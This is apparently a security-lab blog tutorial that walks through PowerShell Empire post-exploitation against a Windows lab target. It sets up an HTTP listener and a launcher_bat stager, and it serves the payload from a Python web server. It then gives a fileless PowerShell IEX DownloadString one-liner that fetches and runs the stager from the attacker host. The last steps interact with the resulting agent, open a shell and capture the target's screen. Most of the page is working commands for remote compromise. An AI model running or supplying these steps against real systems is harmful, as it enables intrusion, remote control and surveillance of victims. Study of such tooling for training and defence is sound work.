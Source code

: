 # Welcome to Cyber Secure Labs

Working with the newest version of Powershell Empire

Public Site for sharing security writes

## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%204.png)

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2015.png)

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%2016.png)
